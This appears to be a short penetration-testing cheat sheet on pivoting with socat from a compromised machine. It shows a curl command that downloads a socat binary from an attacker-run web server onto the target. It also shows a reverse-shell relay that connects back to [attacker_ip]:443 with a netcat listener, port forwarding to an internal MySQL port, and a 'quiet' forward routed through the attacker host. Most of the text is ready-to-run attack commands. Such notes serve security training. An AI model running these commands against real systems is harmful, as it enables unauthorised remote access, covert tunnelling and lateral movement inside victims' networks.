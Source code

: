 Transfering socat:
```
attacker:
sudo python3 -m http.server 80

target:
curl [attacker_ip]/socat -o /tmp/socat-username && chmod +x /tmp/socat-username
```

Reverse shell relay with socat:
```
attacker:
sudo nc -nvlp 443

target:
./socat tcp-l:8000 tcp:[attacker_ip]:443 &
```
* tcp-l:8000 - creates a listener for port 8000
* tcp:[attacker_ip]:443 - connects back to the attacking host
* & - background the listener

Port forwarding with socat:
```
target:
./socat tcp-l:33060,fork,reuseaddr tcp:[target_ip]:3306 &
```
* tcp-l:33060 - creates a listener for port 33060
* fork - put every connection into a new process
* reuseaddr - port stays open after a connection is made to it
* tcp:[target_ip]:3306 - connects to the target on port 3306
* & - background the listener

Port forwarding (quiet - no open ports) with socat:
```
attacker:
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
* create a local relay between 8001 and 8000 with reuse

```
target:
./socat tcp:[attacker_ip]:8001 tcp:[target_ip]:80,fork &
```
* connection from the listening port 80 on the target and the attacker on 8001

```
attacker:
request to localhost:8000
```
attacker > target flow
* request to localhost 8000
* go in 8000, come out 8001
* 8001 is connected to the compromised server on port 80

target > attacker flow
* response sent to socat, which goes to 8001 on the attacker
* inbound from 8001 of the target comes out 8000 on the attacker
